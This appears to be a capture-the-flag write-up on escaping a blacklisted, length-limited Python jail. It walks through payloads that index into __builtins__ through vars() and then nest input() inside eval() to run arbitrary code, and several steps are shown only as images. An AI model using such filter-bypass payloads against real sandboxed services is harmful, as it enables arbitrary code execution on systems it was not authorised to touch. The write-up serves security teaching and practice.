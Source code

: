# Golfing 100 Character

u can see at the <a href="blacklist.py">code</a>, it still using LITE ban and u can use more than 100 character.

First, lets use inline for loop to iterate __vars()__ and get the builtins

```
[x for x in vars()]
```

<img src='img/1.png' width='600px'>

u can see if the __\_\_builtins\_\___ function is on array, so we need to know where is the index of that function. Cuz if we call the function normally, it will make the payload longer.

<img src='img/2.png' width='400px'>

after that, using this payload will call the __\_\_builtins\_\___ function.

```
[x for x in vars()][6]
```

<img src='img/3.png' width='400px'>

now lets try to put in inside the __vars()__

```
vars(vars()[[x for x in vars()][6]])
```

<img src='img/4.png' width='800'>

now take the __eval()__ and __input()__

<img src='img/5.png' width='400'>

it works, now put the __input()__ inside the __eval()__

<img src='img/6.png' width='700'>
